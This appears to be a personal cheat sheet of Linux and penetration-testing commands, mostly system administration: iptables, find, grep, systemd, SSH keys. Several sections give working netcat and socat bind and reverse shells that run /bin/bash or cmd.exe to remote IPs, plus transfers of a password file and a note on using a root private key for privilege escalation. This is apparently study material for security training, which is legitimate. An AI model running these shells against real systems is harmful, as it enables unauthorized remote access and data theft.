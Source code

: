 ### Show logger
who  
last  
/var/log 检查日志

### Disk Partition
lsblk  
sudo fdisk -l

### Show network connections
netstat -natup  
ss -natup

### Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### echo current shell
echo $SHELL

### echo environmental variable
env

### Sed
###### extract first 1-1000 lines
```
sed -n '1,1000p' file
```

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### NC bind shell
```
nc -nlvp 4444 -e cmd.exe
nc -nv 10.11.0.22 4444
```

### NC reverse shell
```
nc -nlvp 4444
nc -nv 10.11.0.22 4444 -e /bin/bash
```
### Socat encrypted bind shell
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 30 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem

sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
socat - OPENSSL:192.168.22.31:443,verify=0

socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT
socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:/bin/bash
windows:socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:'cmd.exe',pipes
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Socat reverse shell
```
socat -d -d TCP4-LISTEN:443 STDOUT(shell listener)
socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash(shell listener)
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
socat - TCP4:172.16.53.20:456(shell connection)
```

### IPTables
```
sudo iptables -L (show iptables) --line-numbers(optional)
Append a rule to the INPUT chain for a source network of 192.168.1.0/24 for all protocols: sudo iptables -s 192.168.1.0/24 -p all -A(append)/D(delete)/I(insert) INPUT
sudo iptables -s 127.0.0.1 -d 127.0.0.1 -A INPUT
sudo iptables -s 192.168.1.37 -p tcp -A INPUT
sudo iptables -D INPUT 5(linenumber)
sudo iptables -nvL(show traffic)
sudo iptables -P FOWARD DROP(change default policy of forward to drop)
sudo iptables -R(replace) INPUT 1 -s 192.168.1.37 -d 127.0.0.1 -p tcp --dport 8080
Final: sudo iptables-save
```

#### stateful firewall
**INVALID**: The packet is associated with no known connection.  
**NEW**: The packet has started a new connection or otherwise associated with a connection that has not seen packets in both directions.  
**ESTABLISHED**: The packet is associated with a connection that has seen packets in both directions.  
**RELATED**: The packet is starting a new connection, but is associated with an existing connection, such as an FTP data transfer or an ICMP error.  
**UNTRACKED**: The packet is not tracked at all, which happens if you explicitly un-track it by using -j CT --notrack in the raw table.  
```
sudo iptables -I INPUT 1 -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
sudo iptables -I INPUT 2 -m conntrack --ctstate INVALID -j DROP
sudo iptables -L --line-numbers
```


### Tcpdump
sudo tcpdump -i any -w file.pcap

### Find
find /usr -type f -exec md5sum {} + | grep "d61d579501ab8ff507120780191929d5"
> find only files under usr with hash value d61----



### SSH 免密登录(manual way: copied over the id_rsa.pub file to authorized_keys)
> First way:  
> ssh-keygen  
> ssh-copy-id -i /home/kali/.ssh/id_rsa.pub kali@remote_ip  
> Second way:  
> ssh-keygen  
> ssh-copy-id remote-username@remote_ip  

###### Using root's private key to gain root access
chmod 400 private_key  
ssh -i private_key username@remote_ip(usually required for normal user already logged in,then can used as privilege escalation)   

### Systemd
journalctl -u network.service(See network service messages)  
systemctl show service(Show properties of a service or other unit)  
journalctl(Show all collected log messages)  
journalctl -k(Show only kernel messages)

### list commands current users can/can't execute 
sudo -l

### Use of .bashrc or .zshrc(check shell you are using first)
make persistent alias by adding (alias ..='cd')  
execute command when user logins in by adding command (echo "xingdi")

### Ndisasm
```
ndisasm [-a] [-i] [-h] [-r] [-u] [-b bits] [-o origin] [-s sync...]
               [-e bytes] [-k start,bytes] [-p vendor] file
   -a or -i activates auto (intelligent) sync
   -u same as -b 32
   -b 16, -b 32 or -b 64 sets the processor mode
   -h displays this text
   -r or -v displays the version number
   -e skips <bytes> bytes of header
   -k avoids disassembling <bytes> bytes from position <start>
   -p selects the preferred vendor instruction set (intel, amd, cyrix, idt)
```
### grep
```
This will search for the string “string” in all files under the / directory and its subdirectories.
grep -r "string" /

This will search for the string “string” in all files under the / directory and its subdirectories, but only display the names of the files that contain the string.
grep -rl "string" /

To search for a string in a specific file under the / directory, use the following command:
grep "string" /path/to/file

grep -rl --exclude='*.py' --exclude='*.js' "string" /
```
